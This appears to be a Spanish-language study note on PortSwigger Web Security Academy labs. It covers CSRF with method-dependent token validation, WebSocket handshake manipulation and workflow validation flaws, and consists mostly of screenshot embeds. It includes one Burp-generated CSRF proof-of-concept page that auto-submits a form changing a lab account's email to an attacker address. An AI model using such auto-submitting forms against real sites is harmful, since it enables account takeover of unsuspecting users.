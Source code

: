 # CSRF donde la validación del token depende del método de solicitud

![[01.CSRF_ValidacionDeToken.png]]
![[02.CSRF_ValidacionDeToken.png]]
![[03.CSRF_ValidacionDeToken.png]]
![[04.CSRF_ValidacionDeToken.png]]
![[05.CSRF_ValidacionDeToken.png]]
![[06.CSRF_ValidacionDeToken.png]]
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5900b903b688da81a93e28000700f7.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="hackme&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="KM7nZPikhLDh3AwClSJQhh2II2IAN3LD" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html> 
```
![[07.CSRF_ValidacionDeToken.png]]

# Manipulación del protocolo de enlace WebSocket para explotar vulnerabilidades

![[01.ManipulacionWebsocket.png]]
![[02.ManipulacionWebsocket.png]]
![[03.ManipulacionWebsocket.png]]
![[04.ManipulacionWebsocket.png]]
![[Pasted image 20240705162224.png]]
![[05.ManipulacionWebsocket.png]]
# Validación de flujo de trabajo insuficiente

![[01.ValidacionDeFlujo.png]]
![[02.ValidacionDeFlujo.png]]
![[03.ValidacionDeFlujo.png]]

